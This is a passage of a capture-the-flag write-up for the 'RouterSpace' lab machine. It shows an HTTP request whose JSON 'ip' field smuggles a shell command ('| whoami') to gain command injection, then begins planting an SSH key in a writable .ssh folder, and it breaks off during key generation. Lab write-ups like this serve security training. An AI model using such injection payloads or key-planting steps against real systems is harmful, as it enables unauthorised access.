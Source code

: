 {{<figure src="/images/routerspace/RouterAPKRequest.png" title="Captured Request">}}

### Foothold
* Request is vulnerable to command injection

{{<figure src="/images/routerspace/Command_Injection.png" title="Vulnerable to Command Injection">}}

#### Request

```text
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 25
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate


{"ip":"0.0.0.0 | whoami"}
```

#### Response

```
HTTP/1.1 200 OK
X-Powered-By: RouterSpace
X-Cdn: RouterSpace-7530
Content-Type: application/json; charset=utf-8
Content-Length: 8
ETag: W/"8-qTM+b2Uq+FmQphCm7m1RM+pENkU"
Date: Sun, 06 Mar 2022 13:33:23 GMT
Connection: close

"paul\n"
```




## Foothold

* No request for reverse shell worked
* But /home/paul/.ssh had write privileges
* Created an ssh key pair 


```bash
┌─[babayaga@babayaga-virtualbox]─[~/.ssh]
└──╼ $ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/babayaga/.ssh/id_rsa): tmp
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in forRouterSpace
Your public key has been saved in forRouterSpace.pub
The key fingerprint is:
SHA256:22ZtDCb89y6FRut4jEgFTkumJ1owa7TZJXcri3o1AvM babayaga@babayaga-virtualbox
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|    + . B .      |
|   . B X + .     |
|    B =.= o .    |
|   . * +S+o. o   |
|    . E =* ++ .  |
```